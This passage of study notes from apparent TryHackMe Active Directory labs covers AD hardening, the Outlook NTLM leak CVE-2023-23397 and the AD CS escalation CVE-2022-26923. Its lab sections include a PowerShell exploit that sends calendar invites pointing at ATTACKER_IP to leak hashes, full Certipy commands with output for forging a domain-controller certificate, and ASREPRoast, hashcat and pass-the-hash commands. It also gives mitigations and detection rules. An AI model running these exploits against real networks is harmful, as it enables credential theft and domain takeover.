* AD Enumeration generates log events, and detection rules can be based on this behaviour
* Signature detection rules must be installed or specific AD enumeration techniques
* Unless used by employees, Command Prompt and Powershell use can be monitored

#### [Back to top](#contents)

---
## Active Directory Hardening


Active Directory is widely used by almost every big organization. Some techniques that can be implemented to harden AD security include:

    - Secure authentication methods
    - Securing hosts through group policies
    - Implementing the Least Privilege model
    - Protection against known AD attacks
    - Havig a Recovery Plan (Post-compromise scenario)

To expand a little on trust relationship from AD basics (above), AD trust is the established communication bridhe between the domains in Active Directory. One and Two-way sharing are trusts based on directions, and transitive trusts and non-transitive trusts are trusts based on characteristics:


Transitive trusts reflects a two-way relationship between domains. To access the AD trust on a WIndows Server, it can be found via:

```
Server Manager --> Tools --> Active Directory Domains and Trust --> *.loc
```

#### Containers and Leaves
Each network part is treated as an object in AD. Anything from resources, users, services, or part of the network can be an object. When an object holds another object, it's called a container, otheriwse, it's called a `leaf object`.

### Securing Authentication Methods

#### LAN Hash Manager
User account passwords are stored with 2 types of hash representation. When the password for any user account is changed or set with fewer than 15 chars, both LAN Manager hash (LM) and NT hash are generated and can be stored in AD. The LM hash is mroe prone to brute force attacks. To disable LM hashing:

```
GP MGMT Editor --> Computer Configuration --> Policies --> Windows Settings --> Security Settings --> Local Policies --. Security Options --> Network Security --> "Do not store LM hash ..." --> Define policy setting
```

#### SMB Signing
`SMB` stands for `Server Message Block`, generally used as a file and print communication protocol, which allows secure transmission over a network. SMB signing through GPO is crucial for `detecting MiTM` attacks. To enable:

```
GPO MGMT Editor --> Computer Configuration --> Policies --> Windows Settings --> Security Settings --> Local Policies --. Security Options --> Microsoft Network Server: Digitally sign communication (always) --> Enable
```

#### LDAP Signing
`Light Weight Directory Access Protocol` enables locating and authenticating resources on the network. LDAP is a `Simple Authentication and Security Layer (SASL)` property that only accepts signed requests and ignores other plain-text or non-SSL requests. To enable:

```
GPO MGMT Editor --> Computer Configuration --> Policies --> Windows Settings --> Security Settings --> Local Policies --. Security Options --> Domain Controller: LDAP server signing requirements --> Require
```

#### Password Rotation
Password Rotation can be achieved with either:

* A script
* MFA
* PR through `Group managed Services Accounts (gMSAs)`, which forces password changes every 30 days.

#### Password Policies
To set a password policy:

```
GP MGMT Editor > Computer Configuration > Policies > Windows Settings > Security Settings > Account Policies > Password Policy
```

The options:
* Enforce password history: prevent at least 10 to 15 old pwds from being used
* Minimum password length
* Complexity requirements

### Least Privilege
Implementing the least privilege model requires limiting the user or application access to minimise security risks and attack surfaces. This can be done in different ways:

* **Creating the Right Type of Accounts:**
    Different account types could be `User` accounts, `Privilege` accounts, and `Shared` accounts, with each their own level of privilege, depending on what is strictly necessary for those accounts.

* **RBAC on Hosts**
    RBAC allows to delegate access privileges at different levels. It includes a `DNS zone`, server, or resource records levels.

* **Tiered Access Model**
    The `AD Tiered Access Model (TAM)` comprises of technical controls that reduce privilege escalation risks. The Tiers include:

        - Tier 0: Top level, includes DC and admin accounts
        - Tier 1: Domain member applications and servers
        - Tier 2: End-users and non-IT personel

### Microsoft Security Compliance Toolkit
The `MSCT` is a toolkit to implement and manage local and domain-level policies. MSCT can be downloaded, and the baselines and policies can be found at `Desktop --> Scripts`. One of the features in the Toolkit is a Policy Analyser which allows compairson of GPOs to check inconsistencies, redundant settings, or alterations. 

### Protecting against known Attacks
Common techniques that compromise AD security include but are not limited to:

* **Kerberoasting**
    The attacker exploits Kerberos Ticket Granting Service (TGS) to request an encrypted password, and then the attacker cracks it offline through various brute force techniques. To prevent the attack,ensure an additional layer of authentication through MFA is present or by frequent and periodic Kerberos Key Distribution Centre (KDC) service account password resets. 

* Weak and Easy to Guess Passwords
* Brute Forcing RDP
* Publicly Accessible Shares

#### [Back to top](#contents)

---
## NTLM leak via Outlook


On 14-03-2023 Microsoft released 83 security patches on Patch Tuesday, including `CVE-2023-23397`. This CVE impact all version of the Outlook desktop app. The Outlook web app and 365 aren't vulnerable since they do not support NTLM authentication. This exploit is particularly dangerous, as it's a `zero-click exploit`, meaning no user interaction is required to trigger it. Once infected, the attacker can obtain `Net-NTLMv2` hashes.

### Abusing Appointment Alerts via UNC Paths
In Outlook, it's possible to add reminder notifications when sending calendar invtitations. It's possible to specify the audio file played for the notification. Manipulating this parameter can enable a threa actor to force Outlook to leak the current password hashes to an attacker with zero interaction required.

TO do this, an attacker creates a malicious calendar invitation that includes a reference to a sound file pointing to a file in a network share in the attackers machine. Outlook stores the reference to the sound file in an internal parameter called `PidLidReminderFileParameter`. To override default configs on the victim machine, `PidLidReminderOverride` needs to be set to true.

It was possible to specify a `UNC (Universal Naming Convention)` path instead of local one, which includes Network share paths like: `\\<Attacker IP>(@80/443)\foo\bar.wav`. When the victim receives the malicious email, the UNC path directs them to the SMB share, causing the system to start an NTLM authentication process against the attackers machine, leaking `Net-NTLMv2` hashes. If for some reason the SMB isnt a viable option, non-server versions of Windows will accept UNC paths to port 80 and 443 as well.


### Practical

Set up Responder:

```
responder -I <intf-name> (tun0)
```

Create a new appointment in Outlook:

```
Calendar icon --> New Appointment --> Reminder (0 minutes) --> Sound... --> \\AttackIP\nonexistent\sound.wav
```

Outlook ignores the invalid input and discards it, but the OutlookSpy plugin could help to override this:

```
OutlookSpy icon --> CurrentItem --> ReminderSoundFile --> Script --> Run
```

A script can be provided to override the correct parameters and set the UNC:

```
AppointmentItem.ReminderOverrideDefault = true
AppointmentItem.ReminderPlaySound = true
AppointmentItem.RemidnerSoundFile = "<UNC>"
```

Responder will pick up the NTLMv2 hash after the victim machine initiates an authentication request to the nonexistent SMB share specified in the UNC path.

### Weaponizingthe Vulnerability

The manual settings which are done in Outlook can be 'codeified' to save some time, so an exploit created by [Oddvar Moe](https://github.com/api0cradle) can be used:

```Powershell
$Outlook = New-Object -comObject Outlook.Application
$newcal = $outlook.CreateItem('olAppointmentItem')

$newcal.Recipients.add($recipient)
$newcal.MeetingStatus = [Microsoft.Office.Interop.Outlook.OlMeetingStatus]::olMeeting
$newcal.Subject = $meetingsubject
$newcal.Location = "Virtual"
$newcal.Body = $meetingbody
$newcal.Start = get-date
$newcal.End = (get-date).AddHours(2)

$newcal.ReminderSoundFile = $remotefilepath
$newcal.ReminderOverrideDefault = 1
$newcal.ReminderSet = 1
$newcal.ReminderPlaysound = 1

$newcal.send()
```

To use the exploit:
```
Import-Module .\<exploit_file>.ps1
Send-CalendarNTLMLeak -recipient "test@thm.loc" -remotefilepath "\\ATTACKER_IP\foo\bar.wav" -meetingsubject "THM Meeting" -meetingbody "This is just a regular meeting invitation :)"
```

### Detection and Mitigation

[sigma_rule1](./assets/outlook_rules/sigma_rule1.txt) detects Outlook initiation a connection to a WebDav or SMB share, indicating a post-exploutation phase.

[sigma_rule2](./assets/outlook_rules/sigma_rule2.txt) looks to detect `svchost.exe` spawning `rundll32.exe` with command arguments like `C:\windows\system32\davclnt.dll,DavSetCookie`, which indicates a post-exploitation/exfiltration phase

This [yara_rule](./assets/outlook_rules/yara_rule.yar) looks for the pattern within the files on disk. It can be used to detect suspicious MSG files on the disk.

Other Mitigation techniques include:

* Add users to the Protected Users Security Group, which prevents using NTLM as an authentication mechanism.
* Block TCP 445/SMB outbound from your network to avoid any post-exploitation connection.
* Use the PowerShell script released by Microsoft to scan against the Exchange server to detect any attack attempt.
* Disable WebClient service to avoid webdav connection.

#### [Back to top](#contents)

---
## CVE-2022-26923 AD Certificate Services


`CVE-2022-26923` is a Microsoft AD Certificate Service vulnerability that allows any AD user to escalate their privileges to Domain Admin in a single hop. Research done and released as a *whitepaper* by [SpecterOps](https://specterops.io/about/) showed that it was possible to exploit misconfigured certificate templates for privilege escalation and lateral movement.

`AD CS` is Miscrosoft's Public Key Infrastructure (PKI) Implementation. It can be used as a CA to prove and delegate trust. AD CS is used for several things, such as:

    - encrypting file systems
    - creating and verifying digital signatures
    - user authentication

What makes this CVE an attractive attack vector, is that certificates can survive credential rotation, meaning that persistent credential theft can be possible for up to 10 years.


Relevant terminology:

**PKI** - Public Key Infrastructure is a system that manages certificates and public key encryption
**AD CS** - Active Directory Certificate Services is Microsoft's PKI implementation which usually runs on domain controllers
**CA** - Certificate Authority is a PKI that issues certificates
**Certificate Template** - a collection of settings and policies that defines how and when a certificate may be issued by a CA
**CSR** - Certificate Signing Request is a message sent to a CA to request a signed certificate
**EKU** - Extended/Enhanced Key Usage are object identifiers that define how a generated certificate may be used

### CVE-2022-26923 explained
AD usually runs on selected domain controllers, where certificate templates (created by AD CS admins) determine which user can request certificates and what is required for that to happen. Client Authentication allows owner of a certificate to verify their identity in AD.

If we have a valid certificate that has the Client Authentication EKU, we can interface with AD CS and the Key Distribution Centre to request a Kerberos TGT that can then be used for further authentication. 

#### Default Certificate Templates

Default domain certificate templates are either `User Certifcate Templates` or `Machine Certificate Templates`, which are not vulnerable by default.

When requesting a certificate based on the User template, the `User Principal Name (UPN)` will be embedded in the `SAN` and can be used for identification. UPN's are unique and usually not modifiable. Machine accounts do not have UPNs, the Machine template uses the DNS of the machine for identification and authentication. When a certificate is requested through a Machine Template, AD CS embeds the machine's DNS Name into the SAN.

#### Default Domain User Privileges
All AD account can enrol up to 10 new machines on the domain. When enrolling a new host in AD, the user is the assigned owner, which includes two main permissions:

* Validate write to DNS hostname --> to update DNS hostname of the AD Object associated
* Validate write to Service Principal Name (SPN) --> Permission allows us to update the SPN of the AD Object

SPN's are used by Kerberos authentication, and they are unique.WHen changing a DNS hostname, Microsoft automatially updates the SPN attribute, but the user still has the ability to change the SPN.

### Practical

Certipy is an offensive tool for enumeration and exploitation of AD CS vulnerabilities and misconfigurations. It integrates with Impacket for some of the exploits.

Commands used:

```
certipy req 'lunar.eruca.com/thm:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template User

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 20
[*] Got certificate with UPN 'thm@lunar.eruca.com'
[*] Saved certificate and private key to 'thm.pfx'

certipy auth -pfx thm.pfx

[*] Using principal: thm@lunar.eruca.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'thm.ccache'
[*] Trying to retrieve NT hash for 'thm'
[*] Got NT hash for 'thm@lunar.eruca.com': 43460d636f269c709b20049cee36ae7a

addcomputer.py 'lunar.eruca.com/thm:Password1@' -method LDAPS -computer-name 'THMPC' -computer-pass 'Password1@'

[*] Successfully added machine account THMPC$ with password Password1@.

certipy req 'lunar.eruca.com/THMPC$:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template Machine

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 20
[*] Got certificate with DNS Host Name 'THMPC.lunar.eruca.com'
[*] Saved certificate and private key to 'thmpc.pfx'

certipy auth -pfx thmpc.pfx

[*] Using principal: thmpc$@lunar.eruca.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'thmpc.ccache'
[*] Trying to retrieve NT hash for 'thmpc$'
[*] Got NT hash for 'thmpc$@lunar.eruca.com': 43460d636f269c709b20049cee36ae7a

<after ssh>

PS C:\Users\thm>Set-ADComputer THMPC -ServicePrincipalName @{}   #<-- Remove SPN attr.

PS C:\Users\thm>Set-ADComputer THMPC -DnsHostName LUNDC.lunar.eruca.com

<Forging malicious certificate>

certipy req 'lunar.eruca.com/THMPC$:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template Machine

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 21
[*] Got certificate with DNS Host Name 'LUNDC.lunar.eruca.com'
[*] Saved certificate and private key to 'lundc.pfx'
```

### Mitigations
The best course of action is to apply a patch released by Microsoft. The patch does two things primarily:

* Further identify the user by their objectSid with the `zOID_NTDS_CA_SECURITY_EXT OID`
* The initial 'Validate write to DNS hostname' permission is modified so it only allows to set DNS hostname to a matching SAM Account Name or Computer account, mitigating spoofing.

Additionally, one could restrict certificates further, or restricting enrolment in AD.

#### [Back to top](#contents)

---
## Attacktive Directory


The Kerberos flow is explained [here](#kerberos).

### Practical

#### Dependencies
The tools needed for this room are Impacket, Bloodhound, and Neo4j

```sh
#Install impacket

sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ 
sudo pip3 install .
sudo python3 setup.py install
```

For Bloodhound and neo4j:

```sh
apt install bloodhound neo4j
apt update && apt upgrade
```

#### Enumeration
Nmap is a common yet complex utility that detects what ports or services are open on a device, it can even detect what OS is running. To enumerate SMB a great tool to use is enum4linux. The tool can be used with:

`enum4linux <targetIP`

#### Abusing Kerberos

Other useful information gathered through the nmap results: TLD stands for `Top Level Domain`. It's also shown that Kerberos is running, and with this port open, a tool called `Kerbrute` can be used to brute force discovery of users and passwords. The command `userenum` can be used to enumarate valid usernames. It can be used like:

`kerbrute userenum -dc <target-ip> -d <domain> userlist.txt` <-- similar to a rockyou.txt

#### Retrieving 
After the enumeration of user accounts is finished, it can be attempted to abuse a feature within Kerberos with an attack method called `ASREPRoasting`. ASReproasting occurs when a user account has the privilege "**Does not require Pre-Authentication**" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

A command can be used to test whether an account can query a ticket without a password:

```sh 
python GetNPUsers.py -no-pass -usersfile ./users.txt -dc-ip <target ip> spooky.local/
```
Since a hash is returned, the hash can be identified against the hashcat wiki, and finally cracked using hashcat itself:

```sh
hashcat -m 18200 hash.txt passwordlist.txt
```
With access to the user's account credentials, it's possible to enumerate other shares that the domain controller may be giving out, such as `SMB` shares, that can be mapped with `smbclient -L <target ip> -U svc-admin`.

#### Escalating Privileges within the Domain
The 'backup' account found earlier whilst enumarating could be the backup account of the Domain Controller.Using impacket, `secretsdump.py` allows for retrieval of password hashes, effectively allowing takeover of the AD Domain. The method that allows dumping of NTDS.DIT is `DRSUAPI`, and `pass the hash` could allow us to authenticate without having a password. A Pass-the-Hash (PtH) attack is a technique where an attacker captures a password hash (as opposed to the password characters) and then passes it through for authentication and lateral access to other networked systems. 

`Evil-WinRM`: WinRM (Windows Remote Management) is the Microsoft implementation of WS-Management Protocol. A standard SOAP based protocol that allows hardware and operating systems from different vendors to interoperate. To use it with a command:

```sh
evil-winrm -i <target ip> -u Administrator -H <hash>
```

#### [Back to top](#contents)